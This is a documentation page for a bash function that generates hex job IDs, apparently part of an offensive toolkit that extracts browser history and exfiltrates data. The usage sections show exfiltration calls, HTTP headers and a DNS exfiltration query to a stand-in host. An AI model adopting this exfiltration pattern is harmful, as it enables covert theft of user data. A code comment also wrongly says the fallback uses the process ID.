 # Generate Job ID Function

## Overview
The `core_generate_job_id()` function creates a unique 8-character hexadecimal identifier for tracking script execution across logging, exfiltration, and debugging operations.

## Function Signature
```bash
core_generate_job_id()
```

## Parameters
- **Inputs**: None
- **Outputs**: 8-character hexadecimal job ID (e.g., "a1b2c3d4")
- **Logic**: None

## Implementation
```bash
# Purpose: Generate a unique job ID for tracking script execution
# Inputs: None
# Outputs: 8-character hexadecimal job ID
# - None
core_generate_job_id() {
    # Use openssl to generate random hex string for job tracking
    # Fallback to date-based ID if openssl not available
    if command -v "$CMD_OPENSSL" > /dev/null 2>&1; then
        $CMD_OPENSSL rand -hex 4 2>/dev/null || {
            # Fallback: use timestamp and process ID
            $CMD_PRINTF "%08x" "$(($(date +%s) % 4294967296))"
        }
    else
        # Fallback: use timestamp and process ID
        $CMD_PRINTF "%08x" "$(($(date +%s) % 4294967296))"
    fi
}
```

## Usage Examples

### Basic Usage
```bash
# Generate a job ID at script startup
JOB_ID=$(core_generate_job_id)
echo "Job ID: $JOB_ID"
# Output: Job ID: a1b2c3d4
```

### In Logging Context
```bash
# Used in log entries for correlation
core_log_output "Starting browser history extraction" "info" false
# Log entry includes: [job:a1b2c3d4] ...
```

### In Exfiltration Context
```bash
# Used to correlate exfiltrated data chunks
core_exfiltrate_data "$output_data"
# HTTP headers include: X-Job-ID: a1b2c3d4
```

## Fallback Behavior

### Primary Method
- Uses `openssl rand -hex 4` for cryptographically secure random generation
- Produces true random 8-character hex strings

### Fallback Method
- Uses timestamp-based generation when OpenSSL unavailable
- Formula: `printf "%08x" "$(($(date +%s) % 4294967296))"`
- Still provides unique IDs based on execution time

## Integration Points

### Global Variable Assignment
```bash
# At script initialization in base.sh
JOB_ID=$(core_generate_job_id)
```

### Logging Integration
```bash
# Used in core_log_output function
printf "[job:%s] %s\n" "$JOB_ID" "$message"
```

### Exfiltration Integration
```bash
# HTTP headers
-H "X-Job-ID: $JOB_ID"

# DNS queries
dig "data-$JOB_ID.example.com"
```

## Security Considerations

### Randomness Quality
- Primary method uses OpenSSL's cryptographically secure random generator
- Fallback method provides time-based uniqueness (not cryptographically secure)
- 8-character hex provides 4.3 billion possible values

### Information Disclosure
- Job IDs are transmitted in logs and exfiltration
- Consider operational security when using in sensitive environments
- IDs help correlate activities but may reveal script execution patterns

## Dependencies
- **Required**: `date` command (POSIX standard)
- **Optional**: `openssl` command (for secure random generation)
- **Variables**: `$CMD_OPENSSL`, `$CMD_PRINTF`

## Error Handling
- Graceful fallback when OpenSSL unavailable
- No error conditions - always returns valid 8-character hex string
- Silent fallback maintains script execution flow

## Performance
- **Primary**: ~5ms (OpenSSL execution)
- **Fallback**: ~1ms (date calculation)
- **Memory**: Minimal (single function call)
- **Network**: None

## Testing
```bash
# Test primary method
if command -v openssl > /dev/null 2>&1; then
    job_id=$(core_generate_job_id)
    echo "Generated: $job_id"
    # Should output 8 hex characters
fi

# Test fallback method
CMD_OPENSSL="/nonexistent/openssl"
job_id=$(core_generate_job_id)
echo "Fallback: $job_id"
# Should output 8 hex characters based on timestamp
``` 
